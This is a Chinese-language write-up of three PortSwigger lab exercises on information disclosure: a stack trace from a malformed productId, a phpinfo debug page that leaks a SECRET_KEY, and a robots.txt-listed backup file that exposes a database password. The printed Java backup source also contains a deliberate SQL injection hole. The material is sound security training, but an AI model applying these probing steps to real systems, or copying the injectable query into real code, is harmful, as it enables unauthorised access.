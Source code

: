 ```yaml
---
title: Information disclosure
description: Information disclosure
---
```


## Lab: Information disclosure in error messages

| Dimension | Description                                                                                           |
| --------- | ----------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/information-disclosure/exploiting#error-messages                 |
| Lab       | https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages |

嘗試 https://0af9000b03d382b281d1f77600800031.web-security-academy.net/product?productId=%27

```
Internal Server Error: java.lang.NumberFormatException: For input string: "'"
	at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:67)
	at java.base/java.lang.Integer.parseInt(Integer.java:647)
	at java.base/java.lang.Integer.parseInt(Integer.java:777)
	at lab.c.w.x.y.Z(Unknown Source)
	at lab.o.go.g.z.h(Unknown Source)
	at lab.o.go.i.z.p.E(Unknown Source)
	at lab.o.go.i.e.lambda$handleSubRequest$0(Unknown Source)
	at s.x.s.t.lambda$null$3(Unknown Source)
	at s.x.s.t.N(Unknown Source)
	at s.x.s.t.lambda$uncheckedFunction$4(Unknown Source)
	at java.base/java.util.Optional.map(Optional.java:260)
	at lab.o.go.i.e.y(Unknown Source)
	at lab.server.k.a.n.l(Unknown Source)
	at lab.o.go.v.B(Unknown Source)
	at lab.o.go.v.l(Unknown Source)
	at lab.server.k.a.k.p.B(Unknown Source)
	at lab.server.k.a.k.b.lambda$handle$0(Unknown Source)
	at lab.c.t.z.p.Q(Unknown Source)
	at lab.server.k.a.k.b.Q(Unknown Source)
	at lab.server.k.a.r.V(Unknown Source)
	at s.x.s.t.lambda$null$3(Unknown Source)
	at s.x.s.t.N(Unknown Source)
	at s.x.s.t.lambda$uncheckedFunction$4(Unknown Source)
	at lab.server.gv.B(Unknown Source)
	at lab.server.k.a.r.G(Unknown Source)
	at lab.server.k.w.c.q(Unknown Source)
	at lab.server.k.q.m(Unknown Source)
	at lab.server.k.c.m(Unknown Source)
	at lab.server.gd.F(Unknown Source)
	at lab.server.gd.r(Unknown Source)
	at lab.x.e.lambda$consume$0(Unknown Source)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1144)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:642)
	at java.base/java.lang.Thread.run(Thread.java:1583)

Apache Struts 2 2.3.31
```

通常這種 Application Server 噴的錯誤訊息，只能當作漏洞挖掘的入口，不能單獨算一個漏洞，實務上我看過好幾個 ASP.NET 的服務都有這個問題

## Lab: Information disclosure on debug page

| Dimension | Description                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/information-disclosure/exploiting#debugging-data             |
| Lab       | https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-on-debug-page |

首頁的 HTML 看到 `<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->`

訪問 https://0a49004903e723e08188398300630085.web-security-academy.net/cgi-bin/phpinfo.php

搜尋 SECRET_KEY，看到 `axkx2kh24eql5x9tbbcrw50j0t0fqp23`，成功解題～

## Lab: Source code disclosure via backup files

| Dimension | Description                                                                                                    |
| --------- | -------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/information-disclosure/exploiting#source-code-disclosure-via-backup-files |
| Lab       | https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files           |

先訪問 `/robots.txt`，看到

```
User-agent: *
Disallow: /backup
```

再訪問 `/backup`，發現有 Directory Listing，之後訪問 `/backup/ProductTemplate.java.bak`，成功看到 DB 密碼～

```java
package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "qcwho9h1825jdqvdle5iitnpetl9xylz"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

## 參考資料

- https://portswigger.net/web-security/information-disclosure
